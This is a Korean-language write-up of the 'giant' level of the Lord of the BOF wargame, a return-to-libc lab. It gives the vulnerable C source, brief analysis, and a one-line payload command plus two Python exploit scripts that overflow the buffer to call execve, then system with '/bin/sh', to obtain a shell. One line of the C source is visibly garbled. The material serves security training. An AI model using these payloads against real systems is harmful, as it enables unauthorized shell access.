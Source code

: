 ```yaml
---
title: "[LOB]Level14. giant"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Only Execve](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



__execve : 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

-----

### 0x02. Exploit

```
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



-----



```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----